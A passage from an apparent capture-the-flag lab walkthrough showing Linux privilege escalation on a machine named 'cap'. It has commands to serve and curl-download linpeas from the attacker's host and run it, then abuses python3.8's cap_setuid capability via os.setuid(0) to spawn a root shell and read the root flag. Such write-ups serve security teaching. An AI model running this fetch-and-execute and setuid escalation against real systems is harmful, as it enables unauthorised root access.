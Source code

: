 next we need to upload it to the ssh shell

start a python http server on your desktop so you can retrieve the linpeas file from the ssh shell:

```jsx
python3 -m http.server 80
```

```jsx
nathan@cap:~$ curl http://10.10.14.103/linpeas.sh -o linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  820k  100  820k    0     0  1644k      0 --:--:-- --:--:-- --:--:-- 1644k
nathan@cap:~$ ./linpeas.sh
```

find ‘files with capabilities’ section of output:

```jsx
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

```

this one is highlighted with permission of cap_setuid, cap_net_bind_service:

```jsx
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

according to documentation, cat_setuid allows the process to gain setuid privileges without the SUID bit set

https://man7.org/linux/man-pages/man7/capabilities.7.html

the following python commands will result in a root shell:

```prolog
import os
os.setuid(0)
os.system("/bin/bash")
```

create a /tmp folder and run start python console:

```jsx
nathan@cap:~$ cd /tmp
nathan@cap:/tmp$ /usr/bin/python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
root@cap:/tmp# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root@cap:/tmp# 
```

use cat to read root flag:

```jsx
root@cap:/tmp# cat /root/root.txt
```

finished